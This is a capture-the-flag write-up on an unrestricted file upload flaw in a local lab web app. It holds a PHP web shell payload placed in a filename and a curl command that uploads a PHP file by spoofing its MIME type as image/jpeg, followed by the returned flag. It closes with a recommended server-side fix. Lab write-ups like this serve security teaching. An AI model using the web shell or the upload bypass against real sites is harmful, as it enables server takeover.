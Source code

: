 ## [Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)

This vulnerability is on the fie upload page: http://localhost:8080/index.php?page=upload.

By tring to upload several files, we can see that we can seemingly only send `.jpg` or `.jpeg` files:

- `test.jpeg` → `/tmp/test.jpeg succesfully uploaded.`
- `test.png` → `Your image was not uploaded.`
- `test.php` → `Your image was not uploaded.`

Local file inclusion doesn't work here: http://localhost:8080/?page=../../../../../../../tmp and
http://localhost:8080/?page=../../../../../../../tmp/test.jpeg only say `You can DO it !!!  :]`.

We tried to execute code during the filename validation with a file called `'<?php system($_GET[cmd]); ?>.jpeg'`, however it only resutls in `/tmp/.jpeg succesfully uploaded.`.

With `curl`, by copying the request sent from a browser and hardcoding the MIME type to `image/jpeg`, we get the flag:

```console
$ curl -X POST 'http://localhost:8080/index.php?page=upload#' -H 'Content-Type: multipart/form-data' -F 'uploaded=@unrestricted_file_upload/resources/test.php;type=image/jpeg' -F 'MAX_FILE_SIZE=100000' -F 'Upload=Upload' | grep flag
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  3138    0  2739  100   399    547     79  0:00:05  0:00:05 --:--:--   720
<pre><center><h2 style="margin-top:50px;">The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> </pre><pre>/tmp/test.php succesfully uploaded.</pre>
```

The vulnerability can be fixed with stronger server-side validation, checking that the file corresponds to the MIME type.
